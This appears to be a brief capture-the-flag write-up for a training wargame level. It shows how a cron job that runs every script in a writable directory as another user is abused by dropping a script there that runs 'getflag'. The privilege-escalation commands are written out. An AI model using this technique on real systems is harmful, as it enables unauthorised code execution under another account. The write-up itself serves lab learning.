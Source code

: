 after u use user level05 you have a new mail contain 
cat /var/spool/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
that's mean we launch this script every 2min
the script is 
`#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done`
we create a script in /opt/openarenaserver/*  and wait 2min and u ll get the flag
echo "getflag > /tmp/res" > /opt/openarenaserver/tt.sh